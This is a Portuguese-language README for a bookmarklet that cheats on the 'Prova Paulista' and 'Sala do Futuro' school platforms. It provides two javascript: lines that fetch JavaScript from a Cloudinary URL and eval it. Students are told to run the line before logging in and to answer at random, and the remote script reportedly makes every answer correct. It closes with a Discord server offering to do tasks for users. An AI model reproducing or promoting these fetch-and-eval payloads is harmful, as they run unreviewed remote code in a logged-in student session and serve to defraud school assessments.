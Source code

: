 # 🚀 HCK - PROVA PAULISTA 

## HCK - PROVA PAULISTA:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
## HCK - TAREFAS:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745882260/saladofuturov2.js").then(t=>t.text()).then(eval);
```

## TUTORIAL DE INSTALAÇÃO:

## **Método Desktop**
1. Clique com o botão direito do mouse na **barra de favoritos** do navegador.
2. Selecione a opção **"Adicionar página"** ou **"Adicionar favorito"**.
3. Preencha os campos:
   - **Nome:** Digite qualquer título para o favorito.
   - **URL/Endereço:** Cole o código logo acima.

## **Método Mobile**
1. Clique nos **três pontos verticais** (☰) no canto superior direito do navegador.
2. Selecione o ícone de **estrela** (Adicionar aos favoritos).
3. Na janela que aparecer:
   - **Nome:** Digite qualquer título para o favorito.
   - **URL/Endereço:** Cole o código acima.

---
### COMO USAR:

1. **Execute o bookmarklet** antes de efetuar o **Login no Sala do Futuro.**

2. Vá até a **tarefa**, responda **todas questões aleatoriamente** e envie.

3. O bookmarklet fará o resto, ele terá com que **todas as repostas corretamente.**

*Obs: A questão do tempo depende de quanto tempo você permanecer na página da tarefa antes de enviá-la.*

---
## [Discord: hackermoon](https://discord.gg/Q7XaERHJ)
- Orientação & Suporte 
- Realização de Tarefas
- Desenvolvimento de Scripts

## Créditos:

- [@inallep](https://github.com/inacallep)
- [@crackingnlearn](https://github.com/crackingnlearn)
- [@miturufu](https://github.com/Miturufu)
